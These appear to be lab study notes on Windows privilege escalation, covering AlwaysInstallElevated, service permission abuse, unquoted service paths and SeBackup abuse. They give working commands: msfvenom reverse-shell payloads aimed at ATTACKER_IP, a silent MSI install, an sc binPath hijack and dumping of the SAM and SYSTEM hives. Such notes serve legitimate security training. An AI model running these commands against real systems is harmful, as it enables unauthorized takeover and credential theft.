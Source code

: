 ### AlwaysInstallElevated
msi files can be set to run with highter privileges.  2 Reg values must be set:
- reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
- reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

`msfvenom` can generate a malicious msi file:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.217.153 LPORT=LOCAL_PORT -f msi -o malicious.msi
```
Then run the MSI on the target with
```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

### Windows Services
SCM manages windows services.`sc qc <service_name>` can be used to query a service.  Service config is also stored in the reg under HKLM\SYSTEM\CurrentControlSet\Services\  

Check if a service has weak permissions that allow an attacker to control the exe

You can create a reverse shell service on the attacking machine with:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe
```
Then start a server with `python3 -m http.server` and use wget in powershell on the target to download it, then `icacls C:\MyPrograms\rev-svc2.exe /grant Everyone:F` to grant all users permissions to it.

### Unquoted Service Paths
There is an odd issue we can exploit where the service path isn't properly quoted to account for spaces.  For example if the path is `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe` then we can jump in at the space and create `C:\MyPrograms\Disk.exe` and it'll take over (passing the rest of the path as arguments).

### Insecure Service Permissions
While the service exe DACL might be secure, the service itself might have an insecure setup.  Sysinternals `accesschk64.exe` will allow you to check what a service DACL is `accesschk64.exe -qlc thmservice`

You can then update anything insecure with `sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem` to point to a poisoned bin.

### Windows Privileges
You can see what priv you have with `whoami /priv`.  You can look up how to abuse them at https://github.com/gtworek/Priv2Admin. A few examples.

#### SeBackup / SeRestore
Allows a user to read/write any file in the system ignoring DACL permissions.  One attack with this is to copy SAM and SYSTEM registry hives to extract the admin password.

Create the files:
```
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```
